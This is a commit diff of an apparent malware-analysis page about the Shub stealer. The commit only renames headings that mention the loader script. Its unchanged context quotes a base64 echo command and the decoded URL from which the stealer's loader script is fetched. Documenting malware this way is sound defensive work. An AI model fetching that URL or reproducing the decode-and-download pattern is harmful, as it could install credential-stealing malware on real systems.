

Before and after one commit to userHonest/docs, a Markdown page: malware/shub-stealer.md, 2 parts joined by grey strips. Rendered like a GitHub page.

````diff
--- a/malware/shub-stealer.md
+++ b/malware/shub-stealer.md
@@ -1,4 +1,4 @@
-# **Digital Analysis of loader.sh and payload.applescript**
+# **Digital Analysis of loader shell script and payload.applescript**
 
 Author: Gabriel Berrios
 Date: 26-03-2026
@@ -61,7 +61,7 @@ echo "aHR0cHM6Ly9kYXRhc3BoZXJlLnVzLmNvbS9kZWJ1Zy9sb2FkZXIuc2g/YnVpbGQ9NDkyZjllNT
 https://datasphere.us.com/debug/loader.sh?build=492f9e58358e8e2bc9e0414fa077e197
 ```
 
-# **Capturing  and Analyzing loader.sh **
+# **Capturing  and Analyzing loader shell script **
 
 The key point is that **loader.sh** is a delivery mechanism.
 
````
